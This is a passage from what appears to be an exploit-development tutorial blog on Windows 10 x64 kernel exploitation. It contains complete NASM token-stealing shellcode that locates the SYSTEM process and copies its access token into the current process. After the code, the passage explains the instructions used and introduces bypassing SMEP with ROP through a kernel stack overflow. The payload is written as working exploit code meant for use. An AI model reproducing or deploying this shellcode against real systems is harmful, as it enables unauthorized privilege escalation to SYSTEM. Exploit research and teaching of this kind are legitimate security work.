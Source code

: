 Once that SYSTEM `_EPROCESS` process object has been found, we can now go ahead and retrieve the token and copy it to our current process. This will unleash God mode on our current process. God, please have mercy on the soul of our poor little process.

<img src="{{ site.url }}{{ site.baseurl }}/images/Picture1.png" alt="">

Once we have found the SYSTEM process, remember that the `Token` element is located at an offset of 0x358 to the `_EPROCESS` structure of the process.

Let's finish out the rest of our token stealing payload for Windows 10 x64.

```nasm
; Windows 10 x64 Token Stealing Payload
; Author Connor McGarr

[BITS 64]

_start:
	mov rax, [gs:0x188]		; Current thread (_KTHREAD)
	mov rax, [rax + 0xb8]		; Current process (_EPROCESS)
	mov rbx, rax			; Copy current process (_EPROCESS) to rbx
__loop:
	mov rbx, [rbx + 0x2e8] 		; ActiveProcessLinks
	sub rbx, 0x2e8		   	; Go back to current process (_EPROCESS)
	mov rcx, [rbx + 0x2e0] 		; UniqueProcessId (PID)
	cmp rcx, 4 			; Compare PID to SYSTEM PID 
	jnz __loop			; Loop until SYSTEM PID is found

	mov rcx, [rbx + 0x358]		; SYSTEM token is @ offset _EPROCESS + 0x358
	and cl, 0xf0			; Clear out _EX_FAST_REF RefCnt
	mov [rax + 0x358], rcx		; Copy SYSTEM token to current process

	xor rax, rax			; set NTSTATUS SUCCESS
	ret				; Done!
```

Notice our use of logical AND. We are clearing out the last 4 bits of the RCX register, via the CL register.. If you have read my [post](https://connormcgarr.github.io/WS32_recv()-Reuse/) about a socket reuse exploit, you will know I talk about using the lower byte registers of the x86 or x64 registers (RCX, ECX, CX, CH, CL, etc).

As you can see also, we ended our shellcode by using logical XOR to clear out RAX. NTSTATUS uses RAX as the regsiter for the error code. NTSTATUS, when a value of 0 is returned, means the operations successfully performed.

Before we go ahead and show off our payload, let's develop an exploit that outlines bypassing SMEP. We will use a stack overflow as an example, in the kernel, to outline using [ROP](https://connormcgarr.github.io/ROP/) to bypass SMEP.

SMEP Says Hello
---

<img src="{{ site.url }}{{ site.baseurl }}/images/64_SMEP.png" alt="">

Let's talk about SMEP. SMEP, or Supervisor Mode Execution Prevention, is a protection that was started as apart of Windows 8. When we talk about executing code for a kernel exploit, the most common technique is to allocate the shellcode is user mode and the call that user mode address in the kernel. This means the user mode code will be called in context of the kernel, giving us the applicable privilege to obtain SYSTEM privileges.

